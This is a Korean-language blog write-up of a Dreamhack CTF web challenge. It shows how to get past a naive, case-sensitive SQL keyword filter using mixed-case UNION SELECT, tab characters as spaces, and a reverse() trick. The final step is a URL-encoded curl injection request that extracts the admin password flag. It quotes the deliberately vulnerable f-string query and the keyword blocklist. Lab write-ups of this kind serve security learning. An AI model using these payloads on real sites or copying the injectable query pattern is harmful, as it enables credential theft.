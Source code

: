 ```yaml
---
title: "드림핵 lv.1 - sql injection bypass WAF"
date: 2025-03-03 00:10:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking, sql injection, WAF, bypass] 
description: 드림핵 sql injection bypass WAF 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/415/](https://dreamhack.io/wargame/challenges/415/)
# 문제 설명
Exercise: SQL Injection Bypass WAF에서 실습하는 문제입니다.

---
# 문제 풀이
## 웹사이트 분석
```
SELECT * FROM user WHERE uid='{uid}';

---

{result}
```
웹사이트에선 특별한 것을 찾아볼 수 없다. <br />
현재 쓰이고 있는 쿼리를 보여주고 있고 해당 쿼리의 결과가 아래 result 부분에 출력되는 것 같다.<br />

그 아래에는 `uid` 값을 입력할 수 있는 인풋 박스와 제출 버튼이 있다. <br />

WAF를 우회하는 문제이기 때문에 아마도 특이한 쿼리를 작성해서 해결해야 할 듯 하다.<br />
테스트용으로 `uid` 값에 `admin`을 입력해보니 WAF에 의해 거절 당했다는 내용이 출력된다.
## 코드 분석
```
[Code Structure]
deploy/
	- app.py
	- init.sql
	- requirements.txt
	- run.sh
DockerFile
```
### init.sql
```sql
CREATE DATABASE IF NOT EXISTS `users`;
GRANT ALL PRIVILEGES ON users.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `users`;
CREATE TABLE user(
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO user(uid, upw) values('abcde', '12345');
INSERT INTO user(uid, upw) values('admin', 'DH{**FLAG**}');
INSERT INTO user(uid, upw) values('guest', 'guest');
INSERT INTO user(uid, upw) values('test', 'test');
INSERT INTO user(uid, upw) values('dream', 'hack');
FLUSH PRIVILEGES;
```
예상대로 해당 데이터베이스에는 `admin`이라는 유저가 있고 그의 비밀번호가 플래그이다.
### app.py
```python
keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False


@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
        cur = mysql.connection.cursor()
        cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
        result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')

    else:
        return template
```
유저로부터 값이 들어오면 `check_WAF()` 함수로 먼저 특정 키워드가 쿼리 내에 있는지 확인을 하는 과정이 있다. 
## 최종 풀이
```python
['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
```
우리는 이 키워드들을 우회하여 "admin"이라는 값을 쿼리에 넣어줘야 한다.<br />
### 가능한 쿼리 분석
마지막 문자 3개가 모두 막혀있다. 스페이스바 입력도 못하고 그것을 주석으로 우회할 수도 없다.<br /> 
남은 건 백틱("\`") 뿐이다. 그리고 `uid="admin"`도 안되기 때문에 다른 방법을 생각해야 하는데 나는 `reverse()` 함수를 이용했다. 
```
'||`uid`=reverse("nimda");`--
```
해당 문자열을 입력하면 결과가 나오는데 "admin"으로 나온다. <br />

```python
return template.format(uid=uid, result=result[1])
```
쿼리가 `SELECT *` 를 하고있어서 난 당연히 비밀번호까지 나올 줄 알았는데 코드를 잘 살펴보니 쿼리의 결과값인 result의 1번째 값만 가져오는 것이 보인다. 0번째는 `idx`이고 2번째는 `upw`이다.

결국 `upw` 값을 `uid` 위치에 나오도록 쿼리를 작성해야 하는데 이럴 때 쓰이는 `union` 키워드도 방화벽에 의해 막혀있다.
### 대소문자 판별 문제
생각해보니까 `check_WAF()` 함수를 봤을 때 대소문자를 체크하지 않는 것 같다는 느낌이 들었다. <br />
테스트로 `AdMiN`을 입력해보니 제대로 작동한다. 굳이 `reverse`나 `select`, `union`과 같은 키워드들을 피할 필요가 없는 것이다.

```sql
'`UnION`SeLecT`upw,`uid`FroM`user`WHERE`uid='AdMiN';`--
```
그래서 생각해낸 쿼리는 위와 같다.<br />
하지만 해당 쿼리를 이용하면 `500 internal server error`가 발생한다.

이게 왜 안되는지 이해가 안가서 여러가지를 시도해봤지만 여전히 알아낼 수 없었다.<br />
그래서 해당 문제의 댓글들을 살펴봤다.<br />

해당 웹사이트에서는 요청을 url을 통해서 보내게 되는데 이때 특수 문자가 요청으로 넘어갈 때 `%{num}` 형식으로 넘어가게 된다.<br />
`%{num}`의 '%' 자체가 특수 문자로 또 인식이 돼 한 번 더 인코딩을 거치게 돼서 브라우저로는 해결하기 힘들다는 것을 알아냈다.
### 해결 방법
브라우저가 아닌 다른 방식으로 요청을 보내면 해결된다. 본인은 주로 파이썬으로 요청을 보내는데 이번엔 귀찮아서 그냥 `curl`로 해결하기로 했다.<br />

그리고 추가적으로 "\`" 백틱 사용은 여러 플랫폼이나 서비스에서 특수 문자로 취급하는 경우가 많아 자꾸만 문법 에러가 발생해서 그냥 tab 문자로 대체했다.<br />

쿼리의 또 다른 문제도 발견됐다. <br />
생각해보니 원래의 쿼리에서 3개의 컬럼 값을 가져오는 것을 간과했다. `idx, uid, upw` 값 총 3개를 가져온다. 그래서 `UNION SELECT` 부분에서도 똑같이 3개의 값을 가져와야한다. 

백틱을 탭으로 대체한 것과 수정된 `UNION`이 적용된 쿼리를 인코딩한 최종 URL은 다음과 같다.
```
// uid 값
// 편의를 위해 탭 부분은 스페이스로 대체함
' UnION SeLecT null,upw,null FroM user WHERE uid='AdMiN' --

// 최종 요청 URL
http://host1.dreamhack.games:12944/?uid='%09UnION%09SeLecT%09null,upw,null%09FroM%09user%09WHERE%09uid%3D%27AdMiN%27%3B%09--
```
#### curl execution
```shell
$ curl "http://host1.dreamhack.games:12944/?uid='%09UnION%09SeLecT%09null,upw,null%09FroM%09user%09WHERE%09uid%3D%27AdMiN%27%3B%09--%0A"

<pre style="font-size:200%">SELECT * FROM user WHERE uid=''	UnION	SeLecT	null,upw,null	FroM	user	WHERE	uid='AdMiN';	--
';</pre><hr/>
<pre>DH{REDACTED}</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
```
이렇게 해서 `p` 태그 안에 있는 최종 플래그를 얻어낼 수 있다.
# 배운 것
url로 유저 인풋이 들어갈 때 꼭 특수 문자 인코딩에 대해서 염두해두는 것을 잊지 말자.<br />
그리고 ' ' 공백 문자 우회에는 되도록이면 백틱은 지양하자. 이거 때문에 삽질 시간이 늘어났다.